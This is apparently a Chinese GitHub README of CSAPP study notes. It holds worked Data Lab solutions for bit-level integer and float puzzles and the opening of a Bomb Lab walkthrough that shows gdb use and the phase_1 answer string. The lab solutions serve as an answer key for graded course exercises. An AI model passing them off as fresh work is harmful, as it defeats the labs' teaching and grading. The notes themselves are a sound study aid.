


# csapp

此项目存放本人学习 CSAPP 时的笔记内容，chx 文件存放 assignment 和 lab，其中 assignment 存放的是 CSAPP 第三版中文版的家庭作业，也就是课后习题。

目前已完成的章节：
- ch2 课后习题+datalab
- ch3 课后习题+boomblab+attacklab
- ch4 跳过
- ch5 课后习题
- ch6 课后习题+cacahelab

assignment 家庭作业
- 里面存放本人写的答案，会详解思路过程！
- 测试用例一部分是参考 https://github.com/DreamAndDead/CSAPP-3e-Solutions


## Index

- [资料](#资料)
- [Lab Assignment 环境搭建](#lab-assignment)
- [Data Lab](#data-lab)
- [Boom Lab](#boom-lab)
- [Attack Lab](#attack-lab)
- [Cache Lab](#cache-lab)


## 资料

视频

> 机翻+人工校正（缺少Lecture 27: Future of Computing）
> 
> [https://www.bilibili.com/video/BV1iW411d7hd](https://www.bilibili.com/video/BV1iW411d7hd)
> 
> 官网视频（非常不错，有两个屏幕PPT和投屏，有Lecture 27）
> 
> [https://scs.hosted.panopto.com/Panopto/Pages/Viewer.aspx?id=526e6341-aa53-4107-8fa1-d13c0e92342e](https://scs.hosted.panopto.com/Panopto/Pages/Viewer.aspx?id=526e6341-aa53-4107-8fa1-d13c0e92342e)

课件PPT & 资料

> [http://www.cs.cmu.edu/afs/cs/academic/class/15213-f15/www/schedule.html](http://www.cs.cmu.edu/afs/cs/academic/class/15213-f15/www/schedule.html)

lab 实验资料

> [http://csapp.cs.cmu.edu/3e/labs.html](http://csapp.cs.cmu.edu/3e/labs.html)

旁注资料 Web Asides

> [http://csapp.cs.cmu.edu/3e/waside.html](http://csapp.cs.cmu.edu/3e/waside.html)

CSAPP第三版书籍中文版勘误

> [https://csapp3e.gitee.io/yiligong_homepage/csapp3e/index.html](https://csapp3e.gitee.io/yiligong_homepage/csapp3e/index.html)

书上代码

> [http://csapp.cs.cmu.edu/3e/code.html](http://csapp.cs.cmu.edu/3e/code.html)

家庭作业答案

> [https://github.com/DreamAndDead/CSAPP-3e-Solutions](https://github.com/DreamAndDead/CSAPP-3e-Solutions)
> 
> 另外一份答案，比第一个有更多测试用例
> 
> [https://valineliu.gitbook.io/deuterium-wiki/reading/cs-jing-dian-shu-ji/csapp-3e-homework-solution](https://valineliu.gitbook.io/deuterium-wiki/reading/cs-jing-dian-shu-ji/csapp-3e-homework-solution)


## Lab Assignment

### 实验搭建

[https://stackoverflow.com/a/856482](https://stackoverflow.com/a/856482)

Removing everything without an extension can also be done:

```bash
mkdir 3.{58..75} # 快速生成家庭作业文件 3.58-3.75
find . -perm +100 -type f # 先查看匹配的是啥，避免删错了
find . -perm +100 -type f -delete
```

用 docker 去装 Linux，别折磨自己在 Mac 配置了，环境已经够乱了

> [https://www.zhihu.com/column/c_1325107476128473088](https://www.zhihu.com/column/c_1325107476128473088)
[https://zhuanlan.zhihu.com/p/339047608](https://zhuanlan.zhihu.com/p/339047608)
> 

```
docker pull centos
docker container run -it -v /Users/your_name/Desktop/个人/CMU/CSAPP/:/csapp --name=csapp_env centos /bin/bash/Users/xxxx/yourFilePath 
请替换成你自己想要进行同步的目录
:/csapp 也请替换成你自己想要命名的目录
```

> [https://stackoverflow.com/questions/70963985/error-failed-to-download-metadata-for-repo-appstream-cannot-prepare-internal](https://stackoverflow.com/questions/70963985/error-failed-to-download-metadata-for-repo-appstream-cannot-prepare-internal)
> 

Error: Failed to download metadata for repo 'appstream': Cannot prepare internal mirrorlist: No URLs in mirrorlist

```
cd /etc/yum.repos.d/
sed -i 's/mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*
sed -i 's|#baseurl=http://mirror.centos.org|baseurl=http://vault.centos.org|g' /etc/yum.repos.d/CentOS-*
yum update -y
```

### 怎么使用？

```bash
docker ps -a  找到NAME为CSAPP的CONTAINER ID
docker start id
docker exec -it id /bin/bash
```

> 做实验，不要看答案，通过自己的努力去完成，实在不会才去看
> 

## Data Lab



> 在做本实验前，你最好先去做书上的家庭作业（很有帮助，有很多灵感），再来做这个，不然很可能难度太大，没有思路
> 

本次实验考察的是位运算，本质上就是数电的内容，如果学过数电的话，这些位运算本质上可以看作是门电路，知道这些就会~~非常简单~~了（浮点数可能比较难搞）。

如果想达到数量最少的位运算，可通过数电中的 `卡诺图` 进行优化。

除非题目显式说明，否则一般条件如下：

- 只允许使用 0~255 的整数（对于浮点数而言则不限制）
- 不允许调用函数，不允许全局变量，不允许宏定义
- 不允许使用非题目声明的运算符
- 不允许使用诸如 if、while 等

具体内容和要求看 `datalab.pdf` 和 `bits.c` 和 `READEME`

```bash
make 编译
make clean
./btest -f bitXor  测试单个函数 f，选取 bitXor
./btest -f bitXor -1 4 -2 5 你懂的，自定义输入数据
./dlc bits.c 验证你是不是使用了非法操作
./dlc -e bitsc.c 打印每个函数所用运算符个数
./driver.pl 打分
```

- 以下是你可能需要的提示
    - 异或 `0` 是其本身
    - 异或 `1` 是取反
    - `a == b` 等价于  `!(a ^ b)`
    - 尝试研究特殊值 `x = 0`、`~x`、`~x+1`、`TMin`、`TMax`、`-x=~x+1`
    - 尝试研究 `exp = 0xFF`、`E = e - bias`、`2^E * M` 、`M = 1.f or M = 0.f`

### BitXor

这道题是用非和与运算实现异或，学过数电的话应该很简单，~~不过我太久没用了搞半天才推出式子~~

- （德摩根定律）推导过程：
    
    
    
    ```cpp
    /* 
     * bitXor - x^y using only ~ and & 
     *   Example: bitXor(4, 5) = 1
     *   Legal ops: ~ &
     *   Max ops: 14
     *   Rating: 1
     */
    int bitXor(int x, int y) {
      int a = ~(~x&~y);
      int b = ~(x&y);
      return a & b;
    //return ~(~x&~y) & ~(x&y);
    //这也许是最少(7)的运算符了，如果你看到有8个运算符的是外面最大的取反没有去掉造成的
    }
    ```
    

### tmin

返回最小的整数补码，记住最高位为 1，为负权值，`-2^w`

- 答案
    
    ```cpp
    /* 
     * tmin - return minimum two's complement integer 
     *   Legal ops: ! ~ & ^ | + << >>
     *   Max ops: 4
     *   Rating: 1
     */
    int tmin(void) {
      return 1 << 31;
    }
    ```
    

### isTmax

判断是否为 Tmax，即 `01111..1`

这道题想了想，其实就是验证 `x+1 = ~x` 
但是注意，如果 `x = 11..1` ，那么 `x+1 = 0` ，`~x = 0` ，而此时是不符合题意的，因此需要特判

- 答案
    
    ```cpp
    /*
     * isTmax - returns 1 if x is the maximum, two's complement number,
     *     and 0 otherwise 
     *   Legal ops: ! ~ & ^ | +
     *   Max ops: 10
     *   Rating: 1
     */
    int isTmax(int x) {
      // 验证 x+1 = ~x式子即可得出结论
      // 但是有特殊情况，x=111..1, x+1=0, ~x=0，此时不是Tmax
      int y = x + 1;
      // printf("%8x %8x %8x %8x %8d\n", x, ~x, x+1, (~x)^(x+1), !((~x)^(x+1)));
      return !y ^ !((~x)^(y));
    	//return !(x ^ 0x7FFFFFFF); 如果没有0-255范围要求，可以直接这样
    	// 当然可以位移凑出来，就是ops比较多
    ```
    
    - 解析
        
        ```cpp
        int y = x + 1;
        return !y ^ !((~x)^(y));
        这里的 y 是当 x != -1 时，!y 始终等于 0，用来异或 0 ^ (答案)，这样就能返回正确答案
        当 x = -1 时， !y = 1，此时 1 ^ (答案）
        但是 x = -1 = [11111] x + 1 = [00000] ~x = [00000] 并不是 Tmax
        尽管在 !((~x)^(y)) = 1，但是注意我们的 y = 1
        1 ^ 1 = 0 拒绝答案
        很精妙的过程
        ```
        

### allOddBits

判断奇数位都为1时返回1，否则返回0

~~没啥难度~~，因为只能使用 0~0xFF 范围的数字，需要拼接得到一个只含 `0101010` 奇数位均为 1 的码 `y`，然后用这个去 `x & y` ，这么做是为了得到只包含奇数位的内容（其余内容偶数位都被忽略掉了），最后再判断 `x ^ y` 是否等于 `0` ，毕竟 `y ^ y = 0` 很容易知道同内容异或值是 `0` 

- 答案
    
    ```cpp
    /* 
     * allOddBits - return 1 if all odd-numbered bits in word set to 1
     *   where bits are numbered from 0 (least significant) to 31 (most significant)
     *   Examples allOddBits(0xFFFFFFFD) = 0, allOddBits(0xAAAAAAAA) = 1
     *   Legal ops: ! ~ & ^ | + << >>
     *   Max ops: 12
     *   Rating: 2
     */
    int allOddBits(int x) {
      // int y = (0xAA << 24) + (0xAA << 16) + (0xAA << 8) + 0xAA;
      int y = (0xAA << 8) + 0xAA;
      y = (y << 16) + y;  // 减少运算符
      // x&y 先获得只含奇数位01010...(不然会有干扰内容) 再 ^y 去看看是不是一样的
      // 毕竟相当于 y ^ y = 0
      return !((x & y) ^ y);
    }
    ```
    

### negate

这个就真的没啥好说的了，负数的补码就是 `~x + 1`

- 答案
    
    ```cpp
    /* 
     * negate - return -x 
     *   Example: negate(1) = -1.
     *   Legal ops: ! ~ & ^ | + << >>
     *   Max ops: 5
     *   Rating: 2
     */
    int negate(int x) {
      return ~x + 1;
    }
    ```
    

### isAsciiDigit

判断 0x30 <= x <= 0x39

无脑减法操作，看看是否大于等于 0 即可，即检查符号位。

- 答案
    
    ```cpp
    /* 
     * isAsciiDigit - return 1 if 0x30 <= x <= 0x39 (ASCII codes for characters '0' to '9')
     *   Example: isAsciiDigit(0x35) = 1.
     *            isAsciiDigit(0x3a) = 0.
     *            isAsciiDigit(0x05) = 0.
     *   Legal ops: ! ~ & ^ | + << >>
     *   Max ops: 15
     *   Rating: 3
     */
    int isAsciiDigit(int x) {
      /*
        x - 0x30 >= 0 A
        0x39 - x >= 0 B
        判断 A B 符号位
            0 0 true
            0 1 false
            1 0 false
            1 1 false
      */
      int r1 = x + (~0x30 + 1);
      int r2 = 0x39 + (~x + 1);
      // int a = r1 >> 31 & 1;
      // int b = r2 >> 31 & 1;
      int mask = 1 << 31;  // 减少ops
      int a = r1 & mask;
      int b = r2 & mask;
      return !a & !b;
    }
    ```
    

### conditional

这道题并不难，与 `isLessOrEqual` 、`isAsciiDigit` 是一个道理的，都是利用了 `&`

分类讨论：

```cpp
另 int t = !x
当 x  = 0 时， t = 1 -> 返回 Z 值
当 x != 0 时， t = 0 -> 返回 Y 值

我们很容易知道 0 的负数还是 0 本身，
t = 1
~t + 1 = [111111]

t = 0
~t + 1 = [000000]

把这两种情况绑定在 Z 和 Y 上
当 t = 1，返回 Z 值 
(~t + 1) & z

当 t = 0，返回 Y 值
(~(!t)+1) & y

两者结合即可（对于 + 还是 |，其实都一样的，我比较喜欢用+）
((~t + 1) & z) + ((~(!t) + 1) & y)
```

- 答案
    
    ```cpp
    /* 
     * conditional - same as x ? y : z 
     *   Example: conditional(2,4,5) = 4
     *   Legal ops: ! ~ & ^ | + << >>
     *   Max ops: 16
     *   Rating: 3
     */
    int conditional(int x, int y, int z) {
      /*
        x = 0 -> t = 1 -> return z
        x = 1 -> t = 0 -> return y
        t = 1, ~t + 1 = [11..1]
        t = 0, ~t + 1 = [00000]
        我们只需要让 t = 1 时，全1 去 & z 获取值，然后全0 去 & y 丢弃
        同理 t = 0 时，全0 去 & z 丢弃，全1 去 & y 获取值
      */
      int t = !x;
      int tt = ~t + 1;  // 减少ops t = 1 -> tt = [11111]; t = 0 -> tt = [0000]
      // return ((~t + 1) & z) + ((~(!t) + 1) & y);
      return (tt & z) + (~tt & y);  // 减少ops
    }
    ```
    

### isLessOrEqual

这道题很不错，先做了这个之后有了灵感做其他题都很简单了。

判断 X ≤ Y

这道题怎么说呢，还挺不好想的，自己想了半小时写出来了。

总的来说就是利用了 `1 & x` 和 `0 & x` 来获取和屏蔽位即可实现该功能。
先列出真值表，观察规律，发现 x 与 y 是异号，那么就判断 x 的符号位即可知道是 `1` 还是 `0` 了。
如果 x 和 y 是同号，判断 `y - x` 的符号位是不是 `0` ，为 `0` 说明为 `true`

- 答案
    
    ```cpp
    /* 
     * isLessOrEqual - if x <= y  then return 1, else return 0 
     *   Example: isLessOrEqual(4,5) = 1.
     *   Legal ops: ! ~ & ^ | + << >>
     *   Max ops: 24
     *   Rating: 3
     */
    int isLessOrEqual(int x, int y) {
      /*
        x <= y 即 y >= x
        Y X C
        0 0 -> 需要计算判断
            0 true
            1 false
        1 1 -> 需要计算判断
            0 true
            1 false
        0 1 -> true
        1 0 -> false
      */
      int sx = x >> 31 & 1;
      int sy = y >> 31 & 1;
      int sxy = sx ^ sy;
    
      int neg_x = ~x + 1;
      int c = y + neg_x;
      int sc = c >> 31 & 1;
      // 1) 如果是异号，syx=1，根据真值表发现，此时只需要返回sx的值。
      // 2) 如果是同号，syx=0，!syx=1，
      return (sxy & sx) + (!sxy & !sc);
    }
    ```
    

### logicalNeg

题解一：

此题解方法比较暴力（就是运算符用完了），而且非常简单易懂，灵感来源于 `第二章家庭作业2.66 leftmost_one`
就是把最左边的 1，右边全部也染成 1，即 [000][1][xxxx] => [000][1][11111..1]
之后判断最后一位，如果是 0 那么 x = 0，如果是 1 那么 x != 0

题解二：

`x | ~x + 1` ，0 的负数还是本身，除了 `x = 0` 外，这种方式将 x 的高位符号位置 `1` 

换个思路想，就是利用了符号位的算术右移，如果是 `0` 那么符号位置 `0` ，否则置 `1`

- 答案
    
    ```cpp
    /* 
     * logicalNeg - implement the ! operator, using all of 
     *              the legal operators except !
     *   Examples: logicalNeg(3) = 0, logicalNeg(0) = 1
     *   Legal ops: ~ & ^ | + << >>
     *   Max ops: 12
     *   Rating: 4 
     */
    int logicalNeg(int x) {
      /*
        题解一：
        此题灵感于第二章家庭作业2.66 leftmost_one
        该做法很暴力，而且非常简单易懂
        就是把最左边的 1，右边全部也染成 1，即 [000][1][xxxx] => [000][1][11111..1]
        之后判断最后一位，如果是 0 那么 x = 0，如果是 1 那么 x != 0
        题解二：
          (x|~x+1)
          x  = 0 (x|~x+1) = [0000]
          x != 0 (x|~x+1) = [1xxxx]
      */
      // solution 1
      // int t;
      // x |= x >> 1;
      // x |= x >> 2;
      // x |= x >> 4;
      // x |= x >> 8;
      // x |= x >> 16;
      // t = x & 1;
      // return (t ^ 1);
      return ((x|~x+1) >> 31) + 1;  // solution 2
    }
    ```
    

### howManyBits

> Ref：[https://zhuanlan.zhihu.com/p/59534845](https://zhuanlan.zhihu.com/p/59534845)
> 

本实验中应该是最难的一道题目了，使用二分法去查看 x 位是否有值，以此推断需要的位数是多少个。

- 答案
    
    ```cpp
    /* howManyBits - return the minimum number of bits required to represent x in
     *             two's complement
     *  Examples: howManyBits(12) = 5
     *            howManyBits(298) = 10
     *            howManyBits(-5) = 4
     *            howManyBits(0)  = 1
     *            howManyBits(-1) = 1
     *            howManyBits(0x80000000) = 32
     *  Legal ops: ! ~ & ^ | + << >>
     *  Max ops: 90
     *  Rating: 4
     */
    int howManyBits(int x) {
      /* Ref https://zhuanlan.zhihu.com/p/59534845 */
      /*
        本题利用二分法来获取
        [16][16]
            /  \
           [8] [8]
               / \
             [4] [4]
             / \
           [2] [2]
           / \
        [1] [1]
        先看高 16 位是否有值
          如果有，则意味着低 16 位已经被确定了，一定要 16 位来表示
          如果没有，则不位移
        接着把高 16 位移到前面，判断高 8 位是否有值
          如果有，说明需要 8 位来表示
          否则，不需要移位
        以此类推到 1 位
    
        对于正数而言，只需要统计高位 1 的位置即可
        对于负数，则需要统计高位 0 的位置
          我们可以让负数取反，这样就能把符号位置0，同时顺便一套相同方案处理（都统计高位 1 的位置）
        当然还需要 1 个符号位
      */
      int b16, b8, b4, b2, b1, b0;
      int sign = x >> 31;
      x = (sign & ~x)|(~sign & x);
      // sign=[11111] &~x 负数取反，sign=[0000] ~sign=[1111] & x 正数不变
      b16 = !!(x >> 16) << 4;  // 高16位是否有值
      x >>= b16;  // 高16位有值就继续查看高16位，否则查看低16位
      b8 = !!(x >> 8) << 3;  // 查看这16位中高8位，有值+8，否则为0
      x >>= b8;  // 以此类推...
      b4 = !!(x >> 4) << 2;
      x >>= b4;
      b2 = !!(x >> 2) << 1;
      x >>= b2;
      b1 = !!(x >> 1);
      x >>= b1;
      b0 = x;
    
      return b16 + b8 + b4 + b2 + b1 + b0 + 1;  // 加上符号位
    }
    ```
    

### floatScale2

`2*f` ，本题与家庭作业 `float_twice` 一致，不再赘述。

- 答案
    
    ```cpp
    /* 
     * floatScale2 - Return bit-level equivalent of expression 2*f for
     *   floating point argument f.
     *   Both the argument and result are passed as unsigned int's, but
     *   they are to be interpreted as the bit-level representation of
     *   single-precision floating point values.
     *   When argument is NaN, return argument
     *   Legal ops: Any integer/unsigned operations incl. ||, &&. also if, while
     *   Max ops: 30
     *   Rating: 4
     */
    unsigned floatScale2(unsigned uf) {
      /* 本题其实就是家庭作业中的 float_twice */
      /* 这里不再赘述 */
      unsigned sign = uf >> 31 & 1;
      unsigned exp = uf >> 23 & 0xFF;
      unsigned frac = uf & 0x7FFFFF;
      if (exp == 0xFF) return uf;  // NaN or Inf
      if (exp == 0) {  // 非规格化
        frac <<= 1;
      } else if (exp == 0xFE) {  // 无法表示了
        exp = 0xFF;
        frac = 0;
      } else {  // 规格化
        exp += 1;
      }
      return sign << 31 | exp << 23 | frac;
    }
    ```
    
    - 解析
        
        ```cpp
        typedef unsigned float_bits;
        
        // 计算2.0*f，f=NaN，直接返回
        /*
            [s][exp][frac]
            思路：
                [x][11111][!=0] NaN 直接返回
                [x][11111][000] Inf 返回
                [x][00000][xxx]
                    非规格化
                    先判断一下 frac=0.[x]xxxxx 中第一个[x]是0还是1
                        若[x] = 0 直接 frac << 1
                        若[x] = 1，我们也可以直接 frac << 1
                            这种做法使得 M = 1.f，而 f = 0.[1]xxx 这个[1]被移走，相当于1/2 * 2 了
                            之后 exp << 23 | frac （滑向规格化）
                            于是就做到 [x][0001][xx]
                [x][111110][xxx] Inf 返回
                    此时无法表示2f，转向Inf
                    exp = 0xFF, frac = 0
                [x][00001~11101]
                    exp + 1
        */
        float_bits float_twice(float_bits f) {
            unsigned sign = f >> 31;
            unsigned exp = f >> 23 & 0xFF;
            unsigned frac = f & 0x7FFFFF;
        
            if (exp == 0xFF) return f;  // NaN or Inf
            if (exp == 0) {  // 非规格化
                frac <<= 1;
                /*        
                    这一步非常妙，f = 0.[x]xxx
                    当[x] = 0，没问题
                    当[x] = 1，位移操作会移到 exp 的域里，相当于 exp+1 了
                    而 E 的值不变，f 的值增大2f了（因为 ）
                */
            } else if (exp == 0xFE) {  // Inf
                exp = 0xFF;
                frac = 0;
            } else {  // 规格化
                exp += 1;
            }
            return sign << 31 | exp << 23 | frac;
        }
        ```
        

### floatFloat2Int

与家庭作业相同 `float_f2i` ，不再赘述。

- 答案
    
    ```cpp
    /* 
     * floatFloat2Int - Return bit-level equivalent of expression (int) f
     *   for floating point argument f.
     *   Argument is passed as unsigned int, but
     *   it is to be interpreted as the bit-level representation of a
     *   single-precision floating point value.
     *   Anything out of range (including NaN and infinity) should return
     *   0x80000000u.
     *   Legal ops: Any integer/unsigned operations incl. ||, &&. also if, while
     *   Max ops: 30
     *   Rating: 4
     */
    int floatFloat2Int(unsigned uf) {
      /* 与家庭作业相同的 float_f2i */
      /* 不再赘述 */
      unsigned sign = uf >> 31 & 1;
      unsigned exp = uf >> 23 & 0xFF;
      unsigned frac = uf & 0x7FFFFF;
    
      int result;
      if (exp == 0xFF) {  // NaN or Inf
        result = 0x80000000;
      } else if (exp < 127) {  // E = [0,31] e = E + 127
        result = 0;  // Too small
      } else if (exp >= 158) {  // Too large e = 158, E = 31, 2^31 * (1+f) > 2^31 - 1
        result = 0x80000000;
      } else {
        unsigned E = exp - 127;
        unsigned M = frac | 0x800000;  // M = 1.f
        if (E >= 23) {  // 无损留下frac
          result = M << (E - 23);
        } else {
          result = M >> (23 - E);
        }
      }
      if (sign) result *= -1;
      return result;
    }
    ```
    
    - 解析
        
        ```cpp
        typedef unsigned float_bits;
        
        float u2f(unsigned u) {
            return *(float *)&u;
        }
        
        // 返回int(f)，若超出表示范围或 NaN，返回 0x80000000 = INT_MIN
        /*
            E = e - bias = e - 127
            由于该范围 int 只能表示这么多
                E = [0, 31]
            反向求值 e
                e = [127, 158]
            
            exp < 127 无法表示，最接近 0
                res = 0
            exp >= 158 无法表示，超出 int 范围
                res = INT_MIN
            exp = [127, 158)
                由于 frac 有 23 位小数，并且是 1.f，因此实际有1位+23位小数
                需要在 frac = frac | 1 << 23 加上
                判断一下 E，看看这 23 位小数能不能留下来
                    E = e - bias
                E >= 23
                    frac << (E - 23)
                E < 23
                    frac >> (23 - E)
        */
        int float_f2i(float_bits f) {
            unsigned sign = f >> 31;
            unsigned exp = f >> 23 & 0xFF;
            unsigned frac = f & 0x7FFFFF;
            int result;
            // if (exp == 0xFF) return result;  // NaN or Inf
            if (exp < 127) {
                result = 0;
            } else if (exp >= 158) {
                result = 0x80000000;
            } else {
                unsigned E = exp - 127;
                unsigned M = frac | 0x800000;  // M = 1.f
                if (E >= 23) {
                    result = M << (E - 23);
                } else {
                    result = M >> (23 - E);
                }
            }
            return sign ? -result : result;
        }
        ```
        

### floatPower2

`2^x` ，注意此题时间开销很大，运行测试用例和打分很慢。此题与家庭作业 `fpwr2` 一致，也不再赘述（会附赠写家庭作业时的解析）

- 答案
    
    ```cpp
    /* 
     * floatPower2 - Return bit-level equivalent of the expression 2.0^x
     *   (2.0 raised to the power x) for any 32-bit integer x.
     *
     *   The unsigned value that is returned should have the identical bit
     *   representation as the single-precision floating-point number 2.0^x.
     *   If the result is too small to be represented as a denorm, return
     *   0. If too large, return +INF.
     * 
     *   Legal ops: Any integer/unsigned operations incl. ||, &&. Also if, while 
     *   Max ops: 30 
     *   Rating: 4
     */
    unsigned floatPower2(int x) {
      /* 家庭作业 2.90 fpwr2 */
      unsigned exp, frac;
      unsigned u;
    
      if (x < -149) {  // 2^(1-127) * 2^(-23) = 2^(-149) 比这个还小就无法表示了
        /* Too small */
        exp = 0;
        frac = 0;
      } else if (x < -126) {
        /* 非规格化 */
        exp = 0;
        frac = 1 << (149 + x);
      } else if (x < 128) {
        /* 规格化 */
        exp = x + 127;
        frac = 0;
      } else {
        /* Too big */
        exp = 0xFF;
        frac = 0;
      }
      u = exp << 23 | frac;
      return u;
    }
    ```
    
    - 解析
        
        ```cpp
        float u2f(unsigned x) {
            return *(float*) &x;
        }
        /*
            让我想想。。。
            [s][exp][frac]
            [s][k=8][n=23]
        
            让我们先思考非规格化形式
                [x][000..0][xxxx]
            最小的非规格化正数则为
                [0][000..0][000...1]
            即
                bias = 2^(8-1) - 1 = 127
                E = 1 - bias = -126
                M = 0.f = 2^(-n)
                V = 2^E * M = 2^(-126) * 2^(-23) = 2^(-149)
            此时知道，这个浮点数所能表示的最小正数范围就是在 2^(-149)
                超出该区域 x < -149，无法表示，返回0.0
                [0][000][000]
        
            [-149, -126] 非规格化
        
            接着找出第一个规格化表示
                [x][000..1][xxxx]
            推导
                E = e - bias = 1 - 127 = -126
            于是乎，找到非规划与规格之间的界限
                [-126, ??] 规格化
            再进行推导规格化的最大值E
                [x][111..0][xxxx]
            于是有
                E = (2^8 - 1 - 1) - bias = 254 - 127 = 127
            得到
                [-126, 127] 规格化
        
            x < -149 太小
                [0][0][0]
        
            x = [-149, -126) 非规格化
                [x][0][???]
                    原本 x = -126 是可以的，但是题目要的是2的指数幂（简单来说就是非规格化 M = 1 无法表示）
                    因此[frac]=[000]是必然的，但是 [x][0000][0000] 非规划化如若如此就表示为0了
                    只能 2^E * 1
                    所以当 x = -126 时只能由规格化去表示（因为非规格化此时不能表示为 *1）
        
            x = [-126, 127]
                [x][xxxx][0000]
                因为此时 
                    e = [0, 255]
                而
                    V = 2^(e-127) * 1 = 2^x
                足以表示
                    e = x + 127
        
            x > 127
                [0][1111][0000]
        */
        float fpwr2(int x) {
            /* Result exponent and fraction */
            unsigned exp, frac;
            unsigned u;
        
            if (x < -149) {
                /* Too small. Return 0.0 */
                exp = 0;
                frac = 0;
            } else if (x < -126) {
                /* Denormalized result 非规格化 */
                exp = 0;
                frac = 1 << (x + 149);  
                // 1<< (x + 149)，当x=-126, n=23 1<< 23 = [1][23个0]，frac位23会污染exp
                // 然而实际上非规格化无法表示x=-126时的情况，因为 M=1 无法表示
            } else if (x < 128) {
                /* Normalized result. */
                exp = x + 127;
                frac = 0;
            } else {
                /* Too big. Return +oo */
                exp = 255;
                frac = 0;
            }
        
            /* Pack exp and frac into 32 bits */
            u = exp << 23 | frac;
            /* Return as flat */
            return u2f(u);
        }
        ```
        

### 总结

一开始觉得简单，到中间觉得很难，就跑去写家庭作业，到后面做完后感觉很有意思，很多题目能通过自己的思考想出一个很不错的方案，很爽。

如果你没思路的话，可以先做这个 `isLessOrEqual` ，做完后你就会发现大部分题目都是如此，很有启发。

越到后面越难。。。不好想啊，没思路的时候先从局部思考，可以不考虑整体，或者直接写最简单的版本（即使题目要求不允许使用xxx），从里面找到灵感

## Boom Lab

> 实验总共有 phase_1~6
> 

先反编译，输出汇编代码

```bash
objdump -d ./bomb >> bomb.s
```

有用的命令

```bash
# 其它内容自行查看csapp提供的pdf
layout asm # 可以看到流执行，特别有用
layout regs # 查看执行流的过程，也看到寄存器的内容！非常有用
p $rax # 打印内容
stepi # 单步
b 函数名 # 断点
```

### phase_1

在汇编代码中去找 `phase_1` 函数调用

```cpp
/* bomb.c *
/* Hmm...  Six phases must be more secure than one phase! */
    input = read_line();             /* Get input                   */
    phase_1(input);                  /* Run the phase               */
    phase_defused();                 /* Drat!  They figured it out!
				      * Let me know how they did it. */
    printf("Phase 1 defused. How about the next one?\n");
```

```r
gdb ./bomb
break phase_1
run

输入字符串...

info registers
x/s $rdi # 打印我们的输入的字符串内容
disass strings_not_equal
```

```r
0000000000400da0 <main>:
....
	400e32:	e8 67 06 00 00       	callq  40149e <read_line>
  400e37:	48 89 c7             	mov    %rax,%rdi
  400e3a:	e8 a1 00 00 00       	callq  400ee0 <phase_1>

0000000000400ee0 <phase_1>:
  400ee0:	48 83 ec 08          	sub    $0x8,%rsp
  400ee4:	be 00 24 40 00       	mov    $0x402400,%esi
  400ee9:	e8 4a 04 00 00       	callq  401338 <strings_not_equal>
  400eee:	85 c0                	test   %eax,%eax
  400ef0:	74 05                	je     400ef7 <phase_1+0x17>
  400ef2:	e8 43 05 00 00       	callq  40143a <explode_bomb>
  400ef7:	48 83 c4 08          	add    $0x8,%rsp
  400efb:	c3                   	retq
```

可以看到在 `main` 主函数里，先是调用了 `read_line` ，读取字符串，然后把数据传给 `%rdi` ，作为 `phase_1` 函数的第一个参数。

不妨打印一下 `%rdi` 里的数据 `x/s $rdi` ，我们会发现打印的内容正好是我们刚才输入的内容。

另外我们发现 `phase_1` 调用了 `strings_not_equal` ，看起来 `%edi` 参数一，`%esi` 参数二，我们打印 `0x402400` 内容是什么，发现是

```r
(gdb) x/s 0x402400
0x402400:	"Border relations with Canada have never been better."
```

去试试就发现是这个了。

### phase_2

在 `main` 函数中找到 `phase_2` 调用

```r
main
